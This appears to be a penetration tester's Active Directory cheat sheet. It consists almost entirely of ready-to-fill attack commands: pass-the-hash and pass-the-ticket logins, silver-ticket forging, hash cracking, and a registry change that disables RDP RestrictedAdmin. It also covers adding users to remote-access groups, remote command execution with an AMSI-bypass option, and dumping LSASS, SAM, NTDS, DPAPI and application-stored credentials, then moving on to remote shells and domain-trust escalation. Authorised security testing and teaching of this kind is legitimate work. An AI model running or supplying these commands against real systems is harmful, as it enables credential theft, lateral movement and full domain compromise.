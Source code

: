 # Active Directory
*   [Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/)
*   Authentication
    *   Password
        *   NXC           → `-u [USER] -p [PASS] -d [DOMAIN] [--local-auth]` → Add `-k` if `STATUS_NOT_SUPPORTED` 
        *   Impacket → `[DOMAIN]/[USER]:[PASS]@[IP]`
    *   User Hashes
        *   NXC                                   → `-u [USER] -H [HASH] -d [DOMAIN] [--local-auth]` → Add `-k` if `STATUS_NOT_SUPPORTED` 
        *   Impacket                         → `[DOMAIN]/[USER]@[IP] -hashes [HASH]`
        *   Password Conversion  → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
        *   Cracking                          → `hashcat -m 1000`
    *   Service Hashes
        *   `ticketer.py -nthash [SERVICE_HASH] -domain-sid [SID] -domain [DOMAIN] -dc-ip [DC_IP] -spn [SPN] Administrator`
        *   Get SID                            → `nxc ldap [DC_IP] --kdcHost [DC_FQDN] -k [AUTH_STRING] --get-sid`
        *   Password Conversion  → `iconv -f ASCII -t UTF-16LE <(printf "[PASS]") | openssl dgst -md4`
        *   Cracking                          → `hashcat -m 1000`
        *   Export Ticket                  → Impersonate Service Administrator + [SPN Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#abusing-service-tickets)
    *   Kerberos (TGT / PFX / TGS)
        *   Request                   → `getTGT.py [AUTH_STRING]` → `export KRB5CCNAME=[TICKET.ccache]`
        *   NXC                           → `--kdcHost [DC_FQDN] --use-kcache -d [DOMAIN] [--local-auth]` 
        *   Impacket                 → `[DOMAIN]/[USER]@[IP] -k -no-pass`
        *   Win/Lin Convert    → `ticketConverter.py [KIRBI/CCACHE_IN] [KIRBI/CCACHE_OUT]`
        *   [KB Realm Configuration](https://mayfly277.github.io/posts/GOADv2-pwning_part1/)
            *   `addhost [IP] [DOMAIN]` → `addhost [IP] [DC_HOSTNAME]`
            *   `configure_krb5.py [DOMAIN] [DC_NETBIOS_NAME]`
            *   `sudo rdate -n [DC_IP]` 
    *   RDP
        *   `xfreerdp /u:[USER] /p:'[PASS]' /v:[IP] [/pth:HASH] [--local-auth] +clipboard` 
        *   RDP NTLM               → `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
        *   RDP Group              → `net localgroup "Remote Desktop Users" [USER] /add`
    *   WinRM
        *   `evil-winrm -i [IP] -u [USER] [-p/H] [PASS/HASH]`  → Check `menu` + Commands
        *   CCACHE Auth    → `-i [DC_FQDN] -r [DOMAIN]`
        *   WinRM Group    → `net localgroup "Remote Management Users" [USER] /add` 
*   Local Admin
    *   Account Check
        *   `nxc [service] [IP] [ AUTH_STRING] [--local-auth]` → Check if `(Pwn3d!)` appears
    *   SMB RCE
        *   `nxc [IP] [AUTH_STRING] -x [CMD]`
        *   `nxc [IP] [AUTH_STRING] -X [PS_COMMAND] [--amsi-bypass /PATH/TO/PAYLOAD]`
    *   Hash Dumping
        *   `nxc smb [IP] [AUTH_STRING] -M lsassy -M nanodump`
        *   `nxc smb [IP] [AUTH_STRING] --lsa --dpapi --sam --ntds`
        *   `nxc smb [IP] [AUTH_STRING] --sccm [disk/wmi]`
        *   `nxc smb [IP] [AUTH_STRING] -M wifi -M keepass_discover -M veeam -M winscp -M vnc -M mremoteng -M rdcman -M teams_localdb -M security-questions`
    *   SMB / RPC Session
        *   `psexec.py   [AUTH_STRING] cmd.exe`
        *   `smbexec.py  [AUTH_STRING]`
        *   `atexec.py   [AUTH_STRING]`
        *   `wmiexec.py  [AUTH_STRING]`
        *   `dcomexec.py [AUTH_STRING] -object MMC20`
    *   Trust Escalations (Domain Admin)
        *   `nxc ldap [DC_IP] [AUTH_STRING] -M enum_trusts`
        *   [Child-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-sid-hijacking/) → SID History Attack
